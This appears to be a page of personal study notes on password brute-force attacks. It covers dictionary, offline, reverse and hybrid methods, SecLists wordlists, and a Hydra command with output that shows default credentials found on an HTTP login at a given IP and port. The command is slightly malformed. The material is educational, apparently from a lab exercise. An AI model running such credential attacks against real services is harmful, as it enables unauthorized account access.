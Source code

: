 
## Dictionary Attack

- dictionary attack tries to get the password but using lists of known passwords to gues the unknown password .
- we can find alot of wordlists for alot of attaks in [SecLists](https://github.com/danielmiessler/SecLists) repo.

## methods of brute force attacks

1. ==online brute force attack :==
2. ==offline brute force attack :== also known as offline password cracking , where we attempt to crack a hash of an encrypted password .
3. ==Reverse brute force attack:== we choose a password and fix it and then we start to try this fixed password with a list of usernames on a certain service .
4. ====Hybrid brute Force Attack :==== we attack the user that we already know or the service that we have info about and we make a special wordlist of passwords for that user or company or service and then we try it .

## Brute force for default passwords

## HYDRA

hydra is very handy for the login pages

to install hydra `apt install hydra -y`

`hydra -h` open help menu .

|   |   |
|---|---|
|**Options**|**Description**|
|`-C credintialsWordlistPath`|Combined Credentials Wordlist|
|`SERVER_IP`|Target IP|
|`-s PORT`|Target Port|
|`http-get`|Request Method|
|`/`|Target Path|

the command :

```
-c /tools/Seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

```
output:
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```
